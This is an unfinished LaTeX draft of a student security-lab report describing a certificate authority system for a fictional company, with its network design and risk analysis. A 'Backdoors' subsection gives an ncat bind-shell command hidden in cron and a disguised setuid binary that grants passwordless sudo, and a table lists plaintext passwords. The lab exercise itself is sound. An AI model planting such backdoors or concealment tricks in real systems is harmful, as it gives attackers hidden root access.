\documentclass[english]{article}

\usepackage{babel}
\usepackage{graphicx}
\usepackage{alltt}
\usepackage{url}
\usepackage{tabularx}
%\usepackage{ngerman}
\usepackage{longtable}
\usepackage{color}
\usepackage{framed}
\usepackage{array}
\usepackage{hyperref}
\usepackage{authblk}
\usepackage{enumitem}

\usepackage{xifthen}
\newboolean{showbackdoors}
\setboolean{showbackdoors}{true}  % set to false to hide subsection on backdoors for reviewing group


\newenvironment{prettytablex}[1]{\vspace{0.3cm}\noindent\tabularx{\linewidth}{@{\hspace{\parindent}}#1@{}}}{\endtabularx\vspace{0.3cm}}
%\newenvironment{prettytable}{\prettytablex{l X}}{\endprettytablex}

\newcolumntype{L}{lp{0.3\textwidth}p{0.3\textwidth}p{15pt}p{15pt}p{15pt}}

\date{\today}

\hypersetup{linktocpage}
\hypersetup{
    linktoc=all
}

\begin{document}

\title{\huge\sffamily\bfseries System Description and Risk Analysis}
%\author{B\"ahler Alessio \and Enz Andreas \and Niederberger Matthias}
\author[1]{B\"ahler Alessio}
\author[1]{Enz Andreas}
\author[1]{Niederberger Matthias}
\affil[ ]{Department of Computer Science, ETH Zurich}
\affil[ ]{\textit {\{abaehler, aenz, niederbm\}@student.ethz.ch}}
\maketitle

%% **** please observe the page limit ****
%% (it is not allowed to change the font size or page geometry to gain more space)
%% comment or remove lines below before hand-in
\begin{center}
{\large\textcolor{red}{Page limit: 30 pages.}}
\end{center}
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\tableofcontents
\pagebreak

\begin{framed}
\noindent
{\it
Recall the following guidelines when writing your reports:
\begin{itemize}
\item Adhere to the given templates.

\item Refer to the security principles in the book for justification.

\item Use clear terminology:
\begin{itemize}
\item secure = confidential + authentic. Be clear about
which properties you are writing.
\item Are pairwise distinct: certificate, private key, public key, archive to of certificate with private key. Please avoid mixing these up.
\end{itemize}

\item Refer to the source document of your risk definitions if appropriate.

\item For the risk evaluation, formulate the threats in active, not passive,
voice: who (threat source) does what (threat action)?

\item Use a spell checker before hand-in!

\end{itemize}
}
\end{framed}


\section{System Characterization}

\subsection{System Overview}

%%% Describe the systems mission,  the system boundaries,
%%% and the overall system architecture, including the main subsystems and
%%% their relationships.   This description should provide a high-level
%%% overview of the system, e.g., suitable for managers, that complements
%%% the more technical description that follows.


iMovies is a company producing independent movies with a focus on investigative reporting. This requires that information within the company and with informants is handled confidentially. Therefore email communication should be secure.
The system described in this report implements a certificate authority (CA), that allows employees to download digital certificates created by iMovies. Those can then be used to secure their mail correspondence.

The CA System is reachable from the internet so employees can access it from anywhere and certificates can be managed through a web interface. A network firewall serves as a first layer of defense for the iMovies company networks.
The company networks are further divided into the DMZ and the internal network. The DMZ contains only the web server that hosts the CA web application. In the internal network we have a server creating and managing certificates
(for short: core\_ca), a dedicated database server and a backup machine. See Fig. (?? REF OVERVIEW).

Web traffic is handled on the web server, which in turn gets user data and certificates from the database and core\_ca server through a REST API. Traffic from clients in the internet to the web server/firewall is encrypted.
The backup machine periodically pulls a backup from from firewall, web server, database and core\_ca server. All traffic on the network is encrypted.



\begin{figure}[htb!]
\centering{
\includegraphics[width=\textwidth]{res/system_arch.eps}}
\caption{System Architecture of the company network including an external client machine.}
\centering
\label{fig:system_arch}
\end{figure}


\subsection{System Functionality}


\subsubsection{Certificate Issuing Process}
TODO: password for encryption of PKCS\#12
\begin{enumerate}
\item The user logs in via a web form by entering his user ID and his password. The user ID and password are verified by consulting the information stored in the database. Alternatively, login using a valid certificate is also possible
\item The user is shown the user information stored in the database. If required, the user may correct this information and any changes will be applied to the database
\item A certificate is issued based on the user information stored in the database
\item The user is offered the possibility to download the new certificate, including the corresponding private key, in PKCS\#12 format
\end{enumerate}

\subsubsection{Certificate Revocation Process}
\begin{enumerate}
\item The affected user authenticates himself to the web application. Authentication can either be certificate-based client authentication over SSL/TLS (if the user still holds the certificate and the corresponding private key) or the user uses his user name and password stored in the database (if the user has lost the certificate or the corresponding private key)
\item After successful authentication, the certificate in question (or all affected certificates of the affected user) will be revoked. Additionally, a new certificate revocation list will be generated and published on the web server and login with the revoked certificate(s) will not be possible anymore.
\end{enumerate}

\subsubsection{CA Administration Interface}
Allows the CA administrator to login with a digital certificate into a dedicated web page where the following data is displayed:
\begin{itemize}
\item Number of issued certificates
\item Number of revoked certificates
\item Current serial number
\end{itemize}

\subsubsection{Backup}
TODO: change in active form, move something to next point
\begin{itemize}
\item \textbf{Keys and Certificates:} A copy of all keys and certificates issued must be stored in an archive. The archive is intended to ensure that encrypted data is still accessible even in the
case of loss of an employee’s certificate or private key, or even the employee
himself.
\item \textbf{Logs and Configuration:} All system critical logs and configuration files are backup up. In case a machine fails it should be easy to restore it and check the copied logs for causes.
\end{itemize}

We have a dedicated backup machine that periodically pulls all these files listed. Each backup is kept for a while, which means we have a history of backups allowing a restore at certain points in time.

\subsubsection{System Administration and Maintenance}
The system provides remote administration functionality on all servers over SSH and on the firewall via HTTPS. In addition, an automated back-up solution must be implemented, which includes configuration and logging information

\subsection{Security Design}

We refer to the following security principles \cite{ASL_book}:
\begin{enumerate}
\setlength\itemsep{0em}
\item Simplicity
\item Open Design
\item Compartmentalization
\item Minimum Exposure
\item Least Privilege
\item Minimum Trust and Maximum Trustworthiness
\item Secure, Fail-Safe Defaults
\item Complete Mediation
\item No Single Point of Failure
\item Traceability
\item Generating Secrets
\item Usability
\end{enumerate}
and to the project's security requirements:
\begin{enumerate}[label=\alph*.]
\setlength\itemsep{0em}
\item Access control with regard to the CA functionality and data
\item Secrecy and integrity with respect to the private keys in the key backup
\item Secrecy and integrity with respect to user data
\item Access control on all components
\end{enumerate}

% Describe the system's security design, including access control, key and session management,  and security of data at rest and in transit.

\subsubsection{General}
\begin{itemize}
\item Every process in the different machines runs with only the privileges that are needed to accomplish its task, according to \emph{5. Least Privilege}.
\end{itemize}

\subsubsection{Database}
\begin{itemize}
\item The MySQL database is accessible only with username:password authentication from localhost, in accord with \emph{5. Least Privilege}, \emph{8. Complete Mediation} and  \emph{d. Access control on all components}
\item The REST API is reachable only over HTTPS, in accord with \emph{1. Simplicity} and \emph{2. Open Design} since no custom protocol is used, and ideally with client side verification to ensure that only the Webserver can send requests (\emph{Complete Mediation}). %Sadly the library used to program it doesn't yet support client side verification over HTTPS, so anyone in the internal network can make requests to the REST API. This could be partially limited by filtering the IP addresses to allow only the one of the Webserver, but IP addresses can be easily spoofed.
\end{itemize}

\subsubsection{Core CA}
\begin{itemize}
\item Keys are generated using RSA and are 2048-bit long (\emph{11. Generating Secrets}).
\item Thereafter they are deleted as soon as the password protected PKCS\#12 file is generated (\emph{4. Minimum Exposure}).
\item For backup purposes a copy of the key is encrypted using the public key
\end{itemize}
% Describe the system's security design, including access control, key and session management,  and security of data at rest and in transit.

Security considerations Andreas:
\begin{itemize}
    \item The web server is the only machine in a DMZ subnet to reduce the impact of a compromised web server on the whole system. Traffic from the DMZ to the internal network has to pass the through the firewall again. This is according to the security principle \emph{No Single Point of Failure}.
    \item Each system functionality is located on a different physical machine according the the \emph{Compartmentalization} security principle. This also somewhat adheres to the \emph{No Single Point of Failure} principle since compromise or even failure of a machine does not always impact the whole system. The backup machine could fail without impacting the operation of the rest of the system. Failure of other machines would impact availability of the system, but if the backup can be accessed a restore is quickly done.
    \item The firewall is by design a single point of failure regarding the availability of the system, but it allows to \emph{minimize the exposure} of the system to the internet drastically. Furthermore the pfSense firewall allows sophisticated logging and monitoring of incoming connections ensuring the security principle of \emph{Traceability} regarding connections through the firewall.
    \item The DMZ and internal network should not be used by any machines except the servers, employees are not allowed to have their workstations in those networks. Should employees need a internal company network, then a new subnet has to be created and connected to the firewall. At the moment this is not in the system architecture since employees should connect from the internet. The networks and servers including firewall are therefore placed in a locked room where only system administrators have access. By doing this we follow the security principles of \emph{Mimimum exposure} and \emph{Complete Mediation}. Inside the room a system administrator can plug his own machine into those networks so he can work from his known environment which increases the \emph{Usability}.
    \item All machines can be remotely administered through use of SSH thus adhering to the \emph{Usability} principle. But the SSH connection is only possible with the private key of an administrator which follows the security principle of \emph{Complete Mediation}.
\end{itemize}


\begin{itemize}
    \item The backup machine logs each scheduled pull and deletion of files according to the \emph{Traceability} security principle.
    \item Since the backup is pulled from other machines, all relevant configuration and administration can  be done easily on a single machine which follows the security principles of \emph{Usability} and \emph{Compartmentalization}.
    \item The centralization of the backup process over SSH also adheres to the security principle of \emph{Minimum Exposure} since none of the backed up users can simply SSH into the backup machine. On the other hand we violate the \emph{No Single Point of Failure} principle, because someone with access to the backup user is automatically able to access all machines from which it pulls. We counter this with the principle of \emph{Complete Mediation} and restrict access to the backup user heavily. Login at the physical machine or using SSH with the private key of a system administrator are the only ways.
    \item Using SSH to encrypt data in transit to the backup machine adheres to security principles of \emph{Generating Secrets} and \emph{Minimum Exposure}.
    \item We do a full backup at scheduled intervals and are keeping a history of old backups for a certain while. This is an approach compliant with the \emph{Simplicity} principle contrary to the more complicated way of doing an incremental backup. It also makes restoring easier (\emph{Usability}) and in case of a corrupted backup an older one can be used thus increasing the robustness of the system (\emph{No Single Point of Failure})
\end{itemize}


\begin{itemize}
    \item We are running pfSense, a widely used and mature open source firewall solution adhering to the \emph{Open Design} security principle. Additionally pfSense comes with a good web interface for administrators thus following the \emph{Usability} principle.
    \item The web interface can only be accessed over https following the principle of \emph{Minimum exposure}
    \item The pfSense web interface is by default not accessible from the internet, only entities in the internal subnet can reach it. To enable remote administration and therefore increase the \emph{Usablity} of the web interface we allow SSH tunneling to the internal network interface for system admins. We ensure the \emph{Complete Mediation} principle by allowing only SSH connections using private keys.
    \item pfSense follows a whitelist approach and the default is to block all traffic which is compliant with the \emph{Secure, Fail-Safe Defaults} principle.
\end{itemize}


\subsection{Components}

%%% List all system components and their interfaces, subdivided, for example, into
%%%   categories such as platforms, applications, data records, etc. For
%%%   each component, state its relevant properties.
\subsubsection{Core Certificate Authority (CA)}
The Core CA server runs in the iMovies internal network at IP address 192.168.50.31 and exposes a SparkJava REST API on port 8100, which accepts HTTPS connections only from the Webserver IP address 192.168.51.14 and uses a certificate signed with the CA root key. It offers calls to issue and revoke certificates, as well as to get information about the state of the CA.\\
The SparkJava application runs under user \emph{coreca} and uses \emph{openssl} commands to manage the CA state. Any data received and sent from the application is in Json format.\\
The following table shows the available REST calls.
\\
\begin{tabular} {| c | l | l | l | l |}
\hline
\textbf{\#} & \textbf{Method and Url} & \textbf{Parameters} & \textbf{Return}\\
\hline
1 & POST /certificates/new/userId & password & pkcs12\\
\hline
2 & DELETE /certificates/userId/one & serialNumber & certificateRevocationList\\
\hline
3 & DELETE /certificates/userId/all & - & certificateRevocationList\\
\hline
4 & GET /ca/issued & - & issued\\
\hline
5 & GET /ca/revoked & - & revoked\\
\hline
6 & GET /ca/serial\_number & - & serialNumber\\
\hline
\end{tabular}
\\
\textbf{Description}:
\begin{enumerate}
\item Creates a new private key and corresponding certificate signed with the CA root key for \emph{userId}. Both are then stored in a PKCS\#12 file that can be opened with \emph{password}. The generated private key is encrypted and saved so that it can be backed up, then all other generated data is deleted and the bytes of the PKCS\#12 file are returned in \emph{pkcs12}
\item Revokes the certificate with \emph{serialNumber} for \emph{userId} and generates a new certificate revocation list, whose bytes are returned in \emph{certificateRevocationList}
\item Revokes all certificates for \emph{userId} and generates a new certificate revocation list, whose bytes are returned in \emph{certificateRevocationList}
\item Returns the number of issued certificates in \emph{issued}
\item Returns the number of revoked certificates in \emph{revoked}
\item Returns the current serial number in \emph{serialNumber}
\end{enumerate}

TODO: hardening ()

\subsubsection{Database}
The Database server runs in the iMovies internal network at IP address 192.168.50.33 and exposes a SparkJava REST API on port 8100, which accepts HTTPS connections only from the Webserver IP address 192.168.51.14 and uses a certificate signed with the CA root key. It offers calls to handle user data.\\
The SparkJava application runs under user \emph{database} and interacts directly with a local MySQL database, which contains only the legacy \emph{users} table. The database is reachable on port 3306, but only from localhost. Any data received and sent from the application is in Json format.\\
The following table shows the available REST calls.\\
\\
\begin{tabular} {| p{0.01\textwidth} | p{0.35\textwidth} | p{0.3\textwidth} | p{0.3\textwidth} |}
\hline
\textbf{\#} & \textbf{Method and Url} & \textbf{Parameters} & \textbf{Return}\\
\hline
1 & GET /users/userId & - & lastname, firstname, emailAddress\\
\hline
2 & POST /users/userId & lastname, firstname, emailAddress & -\\
\hline
3 & POST /users/verify/userId & userPasswordHash & correctCredentials\\
\hline
\end{tabular}
\\
\textbf{Description}:
\begin{enumerate}
\item Returns \emph{lastname}, \emph{firstname} and \emph{emailAddress} attributes for \emph{userId} from the database
\item Changes \emph{userId} attributes in the database to the given \emph{lastname}, \emph{firstname} and \emph{emailAddress}
\item Changes \emph{userId} attributes in the database to the given \emph{lastname}, \emph{firstname} and \emph{emailAddress}
\end{enumerate}

TODO: hardening (1 second wait against brute force,

\subsubsection{Backup}

The backup machine pulls files from other machines using rsync 3.0.9 in archive mode over an ssh connection. We do full (non-incremental) backups at scheduled intervals of important system logs, applications logs, application configuration and data. Backed up machines are:

\begin{itemize}
    \item web server
    \item firewall
    \item core ca
    \item database
\end{itemize}
%%

Not only the last backup is stored, we keep old backups. But to reduce the amount of data stored a cleanup process deletes backups after they reach a certain age. Files can be restored using rsync and reversing source and target of the backup command.
While the data in transit is encrypted through the use of ssh, backups on the machine are not encrypted. The machine can only be accessed physically and over ssh with the private key of the sysadmin.

Scheduling of pulling and cleaning the backups is done with cron. There are two main backup frequencies. The first one is a daily pull of seldom changing, less important files. The second one pulls every 20 minutes. Jobs are staggered so that they don't start at the same time. To be able to automate this process over ssh a passwordless private key is needed for the backup user and all machines listed above need to authorize the corresponding public key.
The files and folders that need to be pulled have to be listed in configuration files on the backup machine. In general, the pull approach allows central administration of the whole backup process on a single machine.




\subsubsection{Network Firewall/Router}

This machine separates the iMovies company networks from the internet and serves as a first line of defense. Furthermore it serves as a router, mainly for incoming webtraffic and ssh connections. We use pfsense 2.4.1 installed on FreeBSD 64-bit. Administration of pfSense is mostly done over a web interface, which is only reachable from the internal network. But remote administration of the web interface is possible by first creating an ssh tunnel to the internal network interface and then starting a web session over this tunnel (using for example Firefox with a SOCKS proxy)

As seen in Fig. (?? REF OVERVIEW) the Firewall has three network interfaces connecting to the internet, DMZ and internal network. In the following we describe the routing (NAT) and firewall rules set up on each interface. All rules we set up do explicitly allow certain traffic, because the pfSense default is to reject everything.

We use static IPs on all machines and network interfaces (see Figure ??? REF TOPO). For the sake of readability we will use the following names for the IP addresses:

\begin{table}[h]
\centering
\begin{tabular}{|l|l|l|}
\hline
\textbf{Name} & \textbf{IP} & \textbf{Description} \\ \hline
WAN & 192.168.70.10 & Firewall interface to the internet \\ \hline
DMZ & 192.168.51.51 & Firewall interface to the DMZ \\ \hline
INTERN & 192.168.50.50 & Firewall interface to the internal network \\ \hline
WS & 192.168.51.14 & Web server \\ \hline
DB & 192.168.50.33 & Database server \\ \hline
BK & 192.168.50.32 & Backup machine \\ \hline
CA & 192.168.50.31 & Core CA server \\ \hline

\end{tabular}
\caption{Names of IPs used in further explanations. See Figure ??? REF OVERVIEW for a graphical representation}
\label{fw_ip_names}
\end{table}


\textbf{WAN port routing table}

The only IP exposed to the internet is that of the WAN interface. This means traffic has to be routed to the correct machine using NAT. The only traffic from the internet we we want to allow is https traffic to the web server and ssh traffic to every machine for remote administration. Table \ref{fw_inet_nat} shows the routing rules for TCP traffic depending on destination port.

\begin{table}[h]
\centering
\begin{tabular}{|c||c|c|}
\hline
\textbf{Dest. Port} & \textbf{NAT IP} & \textbf{NAT Port} \\ \hline
443 & WS & 8100 \\ \hline
5050 & INTERN & 22 \\ \hline
5031 & CA & 22 \\ \hline
5032 & BK & 22 \\ \hline
5033 & DB & 22 \\ \hline
5114 & WS & 22 \\ \hline

\end{tabular}
\caption{NAT port routing at the WAN interface}
\label{fw_inet_nat}
\end{table}


pfSense automatically creates firewall rules to allow NATed traffic. The only rule we add is to allow ICMP traffic to the WAN interface from any host, so that the ping command can be used to check if the WAN interface is reachable.



\textbf{DMZ firewall rules}

Only connections from the web server to the https ports of database and core\_ca are allowed. Also enabling ICMP to be able to ping any host on the company network.

\begin{table}[h]
\centering
\begin{tabular}{|c|c|c|c|c|}
\hline
\textbf{Protocol} & \textbf{Src. IP} & \textbf{Dest. IP} & \textbf{Dest. Port} & \textbf{Action} \\ \hline
TCP & WS & DB & 8100 & Pass\\ \hline
TCP & WS & CA & 8100 & Pass \\ \hline
ICMP & * & * & * & Pass \\ \hline

\end{tabular}
\caption{Firewall rules at the DMZ interface}
\label{fw_dmz}
\end{table}



\textbf{INTERN firewall rules}
This interface allows all outgoing IPv4 traffic. Also there is a special Lockout prevention rule in place making sure the pfSense web interface is always reachable from the internal network.

\subsubsection{Web Server}
The web server runs on a machine in the iMovies demilitarized zone (DMZ). It handles all the HTTP and HTTPS traffic from and to the Internet as well as the HTTPS traffic from and to
the database (DB) and core certificate authority (CA) machines in the iMovies internal network. User authentication is executed in collaboration with DB in the case of username/password authentication
and CA in the case of client certificate based authentication. The web server acts as interface for clients to access the certificate authority functionality and allows them to make changes to first name, last name
and email address entries in the database. The web server logs all relevant user activity such as authentication, certificate generation and revocation. The web server is run on nginx 1.12.2 which connects via uWSGI 2.0.15 (a web server gateway interface software) to the web application running
on the web framework Django 1.11.6. The machine runs CentOS 7 and the aforementioned uWSGI and Django applications run in a Python 3.6.3 virtual environment. The firewall restricts access to the web server to ports 22 and 8100.
Additionally, the web server itself restricts all access to ports 22, for system administrator remote maintenance and backup services, and 8100, on which the web server accepts HTTPS requests. HTTP requests are flat out rejected.
The system has dedicated account for remote administration and running the uWSGI/Django applications, where the former is a sudoer and the latter is not. Since the web server machine is located in a locked room, only the system
administrator, who keeps the key, has physical access to it. The machine is maintained by the system administrator on a daily basis, which includes updating the installed software and checking the logs. The backup process stores the logs
every 20 minutes and the uWSGI/Django code and configuration files daily.


\ifthenelse{\boolean{showbackdoors}}{
% show for handed-in version

Describe the implemented backdoors.

\subsection{Backdoors}

\subsubsection{Easy Backdoor}
We put the easy backdoor on the Backup machine. In certain intervals a port is opened for a short time that is directly bound to a shell. Once the attacker has access to the Backup machine he can ssh as root into all other machines from which backup data is pulled. This is possible because the backup process has root access over ssh to all machines that need to be backed up, since it needs to pull system logs readable only by root.

We did this with netcat listening on port 9844 for 10 seconds:
ncat -l 9844 -i 10 -v -e /bin/bash
The interval scheduling is done with a few cronjobs in the crontab of user backup. To obscure those crontab entries, all their output to stdout and stderr is sent to /dev/null. Also the crontab calls a bash script instead of the netcat command, so that is looks a bit less suspicious. Finally that script is hidden with with a not so easy to find name ". ", which makes it more suspicous in the crontab entry but harder to find in general.
The port opens in a pattern every few minutes. The pattern repeats every 10 minutes and during those opens at minute 0, 1, 3, 5, 6, 8.

The connection is persistent if an attacker connects curing those 10 seconds when the port is open.

\subsubsection{Hard Backdoor}
The hard backdoor is a two-stage process that allows any attacker to execute bash commands with root privileges on the Webserver, Core CA and Database machines. The first phase consists in a hidden webpage on the Webserver and a hidden REST call on both Core CA and Database that, when a given state is reached, allows the execution of any command given by the attacker. Since these commands will be executed with the rights of the unprivileged user running the processes, the second phase consists in using a specially crafted executable that is hidden in the target machine filesystem to obtain passwordless sudo privileges. The attacker can then execute any command through the hidden webpage/REST call and receive its output. \\
Here a more detailed explanation of the two phases:
\begin{itemize}
\item \textbf{Phase 1}: TODO
\item \textbf{Phase 2}: the executable file \emph{/usr/lib/systemd/system-agent} has \emph{setuid bit} set and when executed with option \emph{-a} will modify \emph{/etc/sudoers} by adding a line that gives the unprivileged user on the machine the right to execute any command without password. If it is executed with option \emph{-z} the original will be written in \emph{/etc/sudoers} and any other case will result in no action being performed. Since there aren't many files with \emph{setuid bit} set, the file is placed in a legitimate and pre-existent operating system's directory, is given a misleading name and has creation date set before semester begin to make more difficult its discovery.
\end{itemize}


\bigskip\noindent
\textbf{Hide this subsection in the version handed over to the reviewing team by setting the flag \texttt{showbackdoors} at the top of this document to \texttt{false}.}


%% do not delete the three lines below
}{
% empty for reviewing group's version
}

\subsection{Additional Material}

You may have additional sections according to your needs.
\subsubsection{Login credentials}
TODO: set tables width
\begin{tabular}{| p{0.30\textwidth} | p{0.30\textwidth} | p{0.30\textwidth} |}
\hline
\multicolumn{3}{| c |}{\textbf{Machines user accounts}} \\
\hline
\textbf{Machine} & \textbf{User} & \textbf{Password}\\
\hline
Backup & TODO & TODO\\
\hline
Core CA & iadmin & TODO\\
\hline
Core CA & coreca & TODO\\
\hline
Database & iadmin & TODO\\
\hline
Database & database & TODO\\
\hline
Firewall & TODO & TODO\\
\hline
Webserver CA & TODO & TODO\\
\hline
\end{tabular}

\begin{tabular}{| p{0.5\textwidth} | p{0.5\textwidth} |}
\hline
\multicolumn{2}{| c |}{\textbf{MySQL Database users}} \\
\hline
\textbf{User} & \textbf{Password}\\
\hline
root & reallySecurePwd1!\\
\hline
dbuser & securePwd17!\\
\hline
\end{tabular}

\begin{tabular}{| l | l |}
\hline
\multicolumn{2}{| c |}{\textbf{iMovies users}} \\
\hline
\textbf{Username} & \textbf{Password}\\
\hline
db & D15Licz6\\
\hline
fu & KramBamBuli\\
\hline
ms &MidbSvlJ\\
\hline
a3 & Astrid\\
\hline
\end{tabular}


\section{Risk Analysis and Security Measures}

\subsection{Assets}

%% TODO: Describe the relevant assets and their required security
%%  properties. For example, data objects, access restrictions,
%%  configurations, etc.

\subsubsection{Physical Assets}
\begin{itemize}
\item \textbf{Servers}: all server machines (described in Section 1.4) are positioned in single lockable rack which resides in a locked room in the basement. Only the System Administrator has access to  them.
\item \textbf{Internet Connectivity}: connects the Firewall/Router machine to the ISP's backbone via fiber cable. The SLA with the ISP only guarantees 99.99\% availability, so there might some short periods of time in which there is no connection to the Internet.
\item \textbf{Internal Network}: it consists of Ethernet cables that physically connect the machines in the rack to the firewall/router.
\item \textbf{Firewall Machine}: TODO decide also about router
\end{itemize}

%\item Server Machines: physical machine hosting the Web Server Application. Must be available and enable secure and tamper resistant communications with the clients.
%\item Core CA: physical machine hosting the CA application and the legacy database.
%\item Backup: physical machine hosting the backup data.

\subsubsection{Logical Assets}

\textbf{Software}
TODO: group with same properties
\begin{itemize}
\item \textbf{Firewall application}: pfSense application running on the Firewall machine TODO: Andi? ref
\item \textbf{Web application}: TODO Matthias?
\item \textbf{CA and Database applications}: the SparkJava applications running respectively on the Core CA machine and on the Database machine TODO refs
\item \textbf{MySQL server}:
\item \textbf{Backup application}: TODO: Andi?
\end{itemize}

\noindent\textbf{Information}
\begin{itemize}
\item \textbf{User keys}: are handed out to the users in password protected PKCS\#12 files, which have to be kept secure by the user, who also has the obligation to revoke the corresponding certificate would the key be compromised. An encrypted copy is also stored on the Core CA and Backup machines for recovery purposes.
\item \textbf{Recovery public-private key pair}: the public key is used to encrypt user private keys and has to be available to the CA application. The private key can be used to recover the private keys in case of necessity and given its importance is stored in a safe in the Administrators office (\emph{administrators safe}) that can be opened only in the presence of both the System and the CA Administrators.
\item \textbf{Server keys and certificates}: Core CA, Database and Webserver
\item \textbf{Root CA key and certificate}: are the corner stones of the CA and must therefore be handled accordingly. The key is stored on the Core CA machine (in plaintext), where it is needed to sign certificates requests, and the single existing copy is stored in the administrators safe.
\item \textbf{User data}: is stored in the legacy database and includes sensitive information like personal information and the password hash.
\item \textbf{Configuration and log files}: contain sensitive data like password or usernames and are therefore to be handled and stored securely.
\item \textbf{Certificate revocation list}: contains all revoked certificates. It has to be up to date and available to the users. Furthermore its integrity has to be guaranteed.
\item \textbf{Login data for machines user accounts}: allows local access to the machines and since it is known only by the System Administrator it is his responsibility to keep it secure.
\item \textbf{System Administrator's private SSH key}: allows remote access to all machines and is therefore important that it is kept secret by the System Administrator. It is protected by a password and allows direct access only to the respective unprivileged user of each machine.
\item \textbf{Backup private SSH key}: is needed by the Backup application to pull data from the other machines. It is stored in cleartext, but only readable by the \emph{backup} user.
\item \textbf{CA Administrator's private key}: is needed to be able to login in the CA interface on the Web application and keeping it secure is responability of the CA Admin.
\end{itemize}

\subsubsection{Persons}
\begin{itemize}
\item \textbf{System Administrator}: maintains the system by applying software updates, controlling system logs to search malicious behaviours that could lead to security issues and ensuring that the machines hosting the systems components are working properly. He therefore has access to sensitive data, in the form of a remote connection as well as physical access to all components.
\item \textbf{CA Administrator}: is able to verify the current state of the CA and is the main point of contanct for the users if they have problems. He the coordinates with the System Administrator for solving the problems.
\item \textbf{Employees}: TODO
\item \textbf{Informants}: TODO use the system to obtain certificates which allow them to communicate securely with the WebServer.
\item \textbf{Management}: can also use the system as the Employees, but also has to control the work of the Administrators and schedule audits of the system with a specialized external company. 
\end{itemize}

\subsubsection{Intangible Goods}
\begin{itemize}
\item \textbf{Company reputation}: iMovies is known for the quality and reliability of its investigative reports, as well as for the professionality of its employees. Therefore TODO
\item \textbf{Confidentiality of informant identities}: the exposure of an informant may have serious consequences for the informat, but also for iMovies. For the former it may result in monetary loss, legal consequences or even physical harm, while for the latter it will cause damage to its reputation.
\end{itemize}

\subsection{Threat Sources}

% TODO: Name and describe potential threat sources (\emph{not} threats!) including their motivation.

\begin{itemize}
\item \textbf{Nature}: Floods, lightning strikes, earthquakes can damage the physical infrastructure.
\item \textbf{Employees}: (includes also cleaning personnel etc.) can act maliciously, unintentionally or be careless/poorly trained and consequently damage the system in different ways.
\item \textbf{Competitors}: may be interested in obtaining confidential information to gain an advantage, blackmail or cause harm by publishing it. May resort to Skilled Hackers to achieve their goals.
\item Investigated Subjects: subjects of investigative reports that were publicly exposed and may want to get revenge by causing any kind of damage. May resort to Skilled Hackers to achieve their goals.
\item \textbf{Organized Crime}: can directly or indirectly be an Investigated Subject, could be interested in blackmailing the Company to gain money or just to obtain important information that can be sold on the black market/used for other illegal activities.
\item \textbf{Malware}: may be non-directional or self-spreading and have different goals, e.g. Ransomware, Trojans. TODO
\item \textbf{Skilled Hackers}: A skilled hacker has expert knowledge for some systems. He can write his own code and may use unknown or unpublished vulnerabilities. May itself be an Investigated Subject, act for other personal interests or for monetary interests.
\item \textbf{Script Kiddies}: has basic computer knowledge and uses mainly known vulnerabilities for which exploits are available on the Internet. However, he might write scripts to automate tasks or use tools to automatically create malware. His main motivations are challenge, glory and destruction (from book).
\item \textbf{Organizatorial Deficiencies}: lack in employee training, poor/non-existing/non-enforced security measures, such as unsanitized user input, can weaken the overall security of the system.
\item \textbf{Hardware Failures:} hardware may occasionally break or be subject of malfunctioning. Consequences may be data losses, system errors or unavailability and even total collapse.
\end{itemize}

\subsection{Risks Definitions}

Definition of Likelihood, Impact and Risk level using the following three
  tables from \cite{ASL_book}.

%\subsubsection{Tools}

\begin{center}
\begin{tabular}{|l|p{0.8\textwidth}|}
\hline
%\multicolumn{2}{|c|}{\bf Likelihood} \\
%\hline
Likelihood & Description \\
\hline
\hline
